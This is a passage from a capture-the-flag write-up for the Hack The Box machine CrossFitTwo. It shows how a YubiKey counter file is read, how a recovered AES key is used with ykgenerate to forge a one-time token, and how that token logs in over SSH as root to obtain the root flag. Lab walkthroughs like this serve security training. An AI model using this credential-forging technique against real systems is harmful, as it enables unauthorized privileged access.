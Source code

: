 ```console
a4ce1128bde4
crossfit2$ /usr/local/bin/log /var/db/yubikey/root.ctr

* LogReader v0.1

[*] Log size: 33

985089
```

Now, We need to generate yubikey token which let us to login to SSH, To do so we need to install ```ykgenerate``` as follow:
```console
┌─[evyatar@parrot]─[/hackthebox/CrossFitTwo]
└──╼ $ sudo apt-get install libyubikey-dev
┌─[evyatar@parrot]─[/hackthebox/CrossFitTwo]
└──╼ $ ykgenerate
Usage: ykgenerate <aeskey> <yk_internalname> <yk_counter> <yk_low> <yk_high> <yk_use>
 AESKEY:		Hex encoded AES-key.
 YK_INTERNALNAME:	Hex encoded yk_internalname (48 bit).
 YK_COUNTER:		Hex encoded counter (16 bit).
 YK_LOW:		Hex encoded timestamp low (16 bit).
 YK_HIGH:		Hex encoded timestamp high (8bit).
 YK_USE:		Hex encoded use (8 bit).

```

According the [ykgenerate](https://developers.yubico.com/yubico-c/Manuals/ykgenerate.1.html) page we understand that we need to use this tool as follow (```F0801``` is hex value of ```.ctr``` file which is ```985089```):
```console
┌─[evyatar@parrot]─[/hackthebox/CrossFitTwo]
└──╼ $ ykgenerate 6bf9a26475388ce998988b67eaa2ea87 a4ce1128bde4 F0801 c0a8 00 10
error: Hex encoded yk_counter must be 4 characters.
┌─[evyatar@parrot]─[/hackthebox/CrossFitTwo]
└──╼ $ ykgenerate 6bf9a26475388ce998988b67eaa2ea87 a4ce1128bde4 f080 c0a8 00 10
hleudvkicjukgecjlrgrcflebbjudrck
```

Let's use this token ```hleudvkicjukgecjlrgrcflebbjudrck``` as ```root``` password:
```console
┌─[evyatar@parrot]─[/hackthebox/CrossFitTwo]
└──╼ $ ssh -i id_rsa root@crossfit.htb
root@crossfit.htb's password: 
OpenBSD 6.8 (GENERIC.MP) #4: Mon Jan 11 10:35:56 MST 2021

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

crossfit2# id                                                                                           
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
crossfit2# cat root.txt
6fbc09c17cca32cc7c7b563d5376dd3a
```

And we get the root flag ```6fbc09c17cca32cc7c7b563d5376dd3a```.
